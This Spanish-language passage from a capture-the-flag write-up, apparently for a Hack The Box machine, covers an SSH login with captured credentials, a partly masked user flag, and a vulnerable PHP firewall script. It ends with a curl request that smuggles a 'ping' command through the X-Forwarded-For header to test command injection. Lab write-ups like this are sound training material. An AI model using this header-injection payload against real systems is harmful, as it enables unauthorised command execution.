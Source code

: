 Accedemos por SSH con las credenciales obtenidas

```shell
❯ ssh uhc@10.10.11.128
The authenticity of host '10.10.11.128 (10.10.11.128)' can t be established.
ECDSA key fingerprint is SHA256:tT45oQAnI0hnOIQg3ZvtoS4RG00xhxxBJua12YRVv2g.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.128' (ECDSA) to the list of known hosts.
uhc@10.10.11.128 s password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Nov  8 21:19:42 2021 from 10.10.14.8
```

Encontramos la flag en el directorio personal del usuario `uhc`

```shell
uhc@union:~$ cat user.txt 
6614a9365173ab4de***************
```

### Escalada Privilegios

* * *

Examinamos el contenido de `/var/www/html/firewall.php`

```php
.
.
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
.
.
```

Vemos que en la variable `ip` almacena el contenido de la cabecera `HTTP_X_FORWARDED_FOR`, vamos a tratar de inyectar un comando `ping` en la cabecera y nos ponemos en escuha de trazas ICMP 

```bash
#MAQUINA VICTIMA
uhc@union:/var/www/html$ curl -s -X GET http://localhost/firewall.php -H "X-FORWARDED-FOR: 1.1.1.1; ping -c 1 10.10.14.34;" -H "Cookie: PHPSESSID=eitt0r81tmnh7pqlhai5hfvuuu"
<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<!------ Include the above in your HEAD tag ---------->
```
